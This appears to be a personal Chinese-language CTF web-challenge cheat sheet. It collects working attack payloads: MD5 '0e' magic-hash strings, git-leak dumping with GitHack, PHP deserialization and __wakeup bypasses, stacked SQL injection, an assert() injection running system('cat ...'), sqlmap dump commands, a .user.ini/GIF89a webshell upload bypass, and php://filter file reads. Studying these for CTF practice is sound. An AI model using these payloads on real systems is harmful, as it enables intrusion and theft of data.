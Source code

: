 ```yaml
---
layout: post
title: "CTF /WEB"
create: 2019-09-05
update: 2019-09-05
categories: blog
tags: [Dev]
description: "CTF /WEB"
---
```


MD5 为 0exxxx开头的字符串 {
    QNKCDZO
    0e830400451993494058024219903391
    
    s878926199a
    0e545993274517709034328855841020
    
    s155964671a
    0e342768416822451524974117254469
    
    s214587387a
    0e848240448830537924465865611904
    
    s1091221200a
    0e940624217856561557816327384675
    
    s1502113478a
    0e861580163291561247404381396064
    
    s1885207154a
    0e509367213418206700842008763514
    
    s1836677006a
    0e481036490867661113260034900752
    
    s1184209335a
    0e072485820392773389523109082030
    
    s1665632922a
    0e731198061491163073197128363787
    
    s532378020a
    0e220463095855511507588041205815 
}

POST
file_get_contents('php://input','r');

```git
- git clone https://github.com/lijiejie/GitHack
- git clone https://github.com/maurosoria/dirsearch
- python GitHack.py  http://url/.git/

```

(==) "666" == 666.00e-0000

PHP 序列化
```php
//数字前有+号不会影响反序列化,但是可以绕过正则表达式
class SeBaFi {
    var $name;
    var $password;
}
$o=new SeBaFi();
$o->password=&$o->name;
echo serialize($o);

// 序列化后的字符串标记的成员数量大于实际数量时可以绕过__wakeup()方法
```

```sql
select 1,table_name from information_schema.tables where table_schema='csdb' and table_type='base table';

concat('se', 'lect')
1';show tables;
1';show columns from `1919810931114514`;#
1';use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1;#
```

PHP 语句闭合
```php
<?php
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}
$file = "templates/" . $page . ".php";
// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
?>

/*构造*/
?page=1','2') === false and system('cat templates/flag.php') and strpos('templates/flag
/*拼接*/
assert("strpos(‘templates/1’, ‘2’) === false and system(‘cat templates/flag.php’) and strpos(‘templates/flag.php’) or die(“Detected hacking attempt!”);
```


```sh
# 注入测试
    sqlmap -r <file> #file 是请求文件
    sqlmap -u <url>
# 获取数据库列表
    sqlmap -r <file> --dbs
    sqlmap -u <url> --dbs
# 获取数据库中的表
    sqlmap -r <file> -D <database> --tables
# 获取数据表中字段
    sqlmap -r <file> -D <database> -T <table> --columns
# 获取数据表中字段的值
    sqlmap -r <file> -D <database> -T <table> -C <column> --dump
```

```php
// php服务器中每个目录下有`.user.ini`可以用来单独配置这些php文件
auto_prepend_file=<file> // 在文件前加入<file>的内容
auto_append_file=<file> // 在文件后加入<file>的内容

// 伪造文件头 - exif_imagetype() 绕过
`.user.ini` 
GIF89a
auto_prepend_file=<file>

`<file>`
GIF89a
<script language='php'>system('cat /flag');</script>
```

PHP 读取任意文件base64编码
```
http://url?arg0=php://filter/read=convert.base64-encode/resource=xxx.php
```

PHP preg_replace 漏洞
```php
/**
 * $pattern 以 '/e' 结尾, 则 $replacement 会被当作php代码替换
 */
preg_replace(mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count]]);
```